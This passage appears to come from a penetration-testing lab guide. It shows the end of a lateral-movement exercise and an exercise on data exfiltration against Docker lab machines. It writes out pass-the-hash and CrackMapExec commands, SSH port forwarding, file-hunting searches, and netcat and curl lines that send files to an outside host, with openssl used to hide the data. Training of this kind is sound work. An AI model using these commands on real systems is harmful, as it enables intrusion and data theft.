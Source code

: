 2. Use Pass-the-Hash to access other systems
   ```bash
   # Command to use
   pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 //192.168.100.60 cmd.exe
   ```

3. Use CrackMapExec to move laterally
   ```bash
   # Command to use
   crackmapexec smb 192.168.100.0/24 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
   ```

4. Use port forwarding to access internal services
   ```bash
   # Command to use
   ssh -L 8080:192.168.100.70:80 user@192.168.100.60
   ```

5. Document the lateral movement process and findings

### Exercise 17: Data Exfiltration

**Objective**: Practice extracting sensitive data from compromised systems.

**Setup**:
1. Use the provided vulnerable machines in the Docker environment

**Tasks**:
1. Identify and locate sensitive data
   ```bash
   # Linux commands
   find / -name "*.txt" -o -name "*.pdf" -o -name "*.doc" 2>/dev/null
   
   # Windows commands
   dir /s /b *.txt *.pdf *.doc
   ```

2. Use various methods to exfiltrate data
   ```bash
   # Using netcat
   nc -w 3 192.168.100.5 4444 < sensitive_data.txt
   
   # Using HTTP
   curl -F "file=@sensitive_data.txt" http://192.168.100.5:8000/
   
   # Using DNS tunneling
   # (Setup instructions in resources directory)
   ```

3. Use encryption to hide exfiltrated data
   ```bash
   # Command to use
   openssl enc -aes-256-cbc -salt -in sensitive_data.txt -out encrypted_data.txt -k password
   ```

4. Document the data exfiltration process and techniques used
